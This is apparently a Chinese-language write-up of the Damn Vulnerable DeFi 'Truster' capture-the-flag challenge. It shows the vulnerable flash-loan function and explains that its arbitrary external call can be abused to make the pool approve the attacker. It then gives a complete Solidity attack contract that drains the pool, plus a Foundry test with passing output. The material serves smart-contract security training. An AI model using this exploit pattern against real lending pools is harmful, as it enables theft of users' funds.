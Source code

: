 ## 题目 [Truster](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/truster)
越来越多的借贷池提供闪电贷。在这种情况下，一个新的池子已经推出，可以免费提供DVT代币的闪电贷。  

该池持有100万个DVT代币，而你一无所有。  

要通过这个挑战，请在一次交易中将池中的所有资金转移出来，并将资金存入指定的恢复账户。  

## 合约分析
`TrusterLenderPool` 实现了一个没有使用标准接口的闪电贷功能。关键在于 `target.functionCall(data);` 这行代码。
``` solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
{
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```
这种实现方式导致闪电贷合约可以调用任意合约的任意函数，唯一的要求是调用完其他函数后，池子里的资金不能减少。利用这一点，我们可以让闪电贷合约调用 approve 函数，这样一来，我们便可以授权自己转移池中的代币，然后将所有代币转移到恢复地址。    

## 题解
攻击合约的代码如下：   
``` solidity
contract TrusterAttack {
    DamnValuableToken public token;
    TrusterLenderPool public pool;
    address public recovery;

    constructor(address tokenAddress, address poolAddress, address recoveryAddress){
        token = DamnValuableToken(tokenAddress);
        pool = TrusterLenderPool(poolAddress);
        recovery = recoveryAddress;
    }

    function attack() external {
        uint256 amount = token.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), amount);
        
        pool.flashLoan(
            0,
            address(this),
            address(token),
            data
        );
            
        token.transferFrom(address(pool), recovery, amount);
    }
}
```
测试调用：  
``` solidity
function test_truster() public checkSolvedByPlayer {
    TrusterAttack trusterAttack = new TrusterAttack(address(token), address(pool), address(recovery));
    trusterAttack.attack();
}
```
运行测试：  
```
forge test --mp test/truster/Truster.t.sol
```
运行结果：
```
Ran 2 tests for test/truster/Truster.t.sol:TrusterChallenge
[PASS] test_assertInitialState() (gas: 21997)
[PASS] test_truster() (gas: 329023)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 8.61ms (1.52ms CPU time)
```